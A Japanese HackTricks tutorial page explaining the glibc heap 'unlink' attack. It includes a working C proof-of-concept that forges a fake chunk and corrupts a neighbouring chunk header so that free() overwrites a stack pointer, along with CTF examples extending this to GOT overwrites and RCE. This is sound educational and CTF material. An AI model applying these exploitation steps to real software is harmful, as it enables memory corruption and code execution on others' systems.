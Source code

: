 # Unlink Attack

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループに参加](https://discord.gg/hRep4RUj7f)**または[telegramグループに参加](https://t.me/peass)または**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングトリックを共有するには、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>

## 基本情報

この攻撃が発見された当初、主にWWW（Write What Where）を許可していましたが、いくつかの**チェックが追加**され、攻撃の新バージョンはより興味深く、より複雑で**無意味**になりました。

### コード例:

<details>

<summary>コード</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* 攻撃はtcachesが使用されている場合には機能しません（2.26以降）

### ゴール

この攻撃は、**チャンクへのポインタをそれ自体の3つ前のアドレスを指すように変更**することを可能にします。この新しい場所（ポインタが配置されていた周囲）に興味深い情報が含まれている場合、他の制御可能な割り当てやスタックなどがあると、それらを読み取ったり上書きしてより大きな被害を引き起こすことができます。

* もしポインタがスタックにあった場合、3つ前を指すようになったため、ユーザーがそれを読み取り、変更できる可能性があるため、スタックから機密情報を漏洩させたり、リターンアドレスを変更することが可能になります（おそらく）キャナリを触ることなく
* CTFの例では、このポインタが他の割り当てへのポインタの配列にあるため、3つ前を指すようにし、読み書きできるようにすると、他のポインタを他のアドレスを指すようにすることが可能です。\
ユーザーが他の割り当ても読み書きできる可能性があるため、情報を漏洩させたり、任意の場所（GOT内など）に新しいアドレスを上書きすることができます。

### 必要条件

* メモリ内（例：スタック）でいくつかの制御を持って、いくつかの属性に値を与えるためのカップルのチャンクを作成します。
* ポインタの偽のチャンクを設定するためのスタックリーク。

### 攻撃

* 2つのチャンク（chunk1とchunk2）があります
* 攻撃者はchunk1の内容とchunk2のヘッダーを制御します。
* chunk1では、攻撃者は偽のチャンクの構造を作成します：
* 保護をバイパスするために、`size`フィールドが正しいことを確認して、`corrupted size vs. prev_size while consolidating`エラーを回避します
* そして偽のチャンクの`fd`と`bk`フィールドが、chunk1のポインタが格納されている場所を指すようにします。それぞれ-3と-2のオフセットで、つまり`fake_chunk->fd->bk`と`fake_chunk->bk->fd`が実際のchunk1アドレスが格納されているメモリ（スタック）の位置を指すようにします：

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* chunk2のヘッダーは変更され、前のチャンクが使用されていないことと、偽のチャンクが含まれるサイズであることを示すようにします。
* 2番目のチャンクが解放されると、この偽のチャンクがリンク解除されます：
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* 以前は、`fake_chunk->fd->bk`と`fake_chunk->bk->fd`が同じ場所を指すようにされていました（`chunk1`が格納されていたスタックの場所、つまり有効なリンクリストでした）。**両方が同じ場所を指している**ため、最後のもの（`fake_chunk->bk->fd = fake_chunk->fd`）だけが**効果**を持ちます。
* これにより、スタック内のchunk1へのポインタが、スタック内の3つ前に格納されているアドレス（またはバイト）に上書きされます。
* したがって、攻撃者が再びchunk1の内容を制御できる場合、スタック内に**書き込むことができ**、おそらくキャナリをスキップしてリターンアドレスを上書きし、ローカル変数の値とポインタを変更することが可能になります。再びスタックに格納されているchunk1のアドレスを異なる場所に変更することで、攻撃者が再びchunk1の内容を制御できる場合、どこにでも書き込むことができます。
* この攻撃が可能だったのは、**アドレスがスタックに格納されていた**ためです。リスクと悪用は、**偽のチャンクのアドレスがどこに格納されているか**に依存する可能性があります。

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## 参考文献

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* CTFでunlink攻撃を見つけるのは奇妙かもしれませんが、この攻撃が使用されたライトアップがある場合があります：
* CTFの例：[https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* この例では、スタックの代わりにmallocされたアドレスの配列があります。unlink攻撃は、この場所にチャンクを割り当てることができるように行われ、その後、これらのアドレスのチャンクの内容を変更する機能があります。これにより、アドレスをGOTにポイントし、関数アドレスを変更してリークとRCEを取得することができます。
* 別のCTFの例：[https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* 前の例と同様に、割り当てのアドレスの配列があります。unlink攻撃を実行して、最初の割り当てへのアドレスを配列の開始位置の数ポジション前を指すようにします。その後、この新しい位置に割り当てを上書きします。そのため、他の割り当てのポインタをGOTにポイントするように上書きし、libcリークを取得し、最後にatoi GOTをワンガジェットのアドレスに上書きすることができます。
* unlink攻撃に非常に似た脆弱性を悪用するカスタムmallocおよびfree関数を使用したCTFの例：[https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* カスタムmallocのFDとBKポインタを制御できるオーバーフローがあります。さらに、ヒープには実行ビットがあり、ヒープアドレスをリークさせ、GOTからヒープチャンクに関数をポイントしてシェルコードを実行することができます。

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
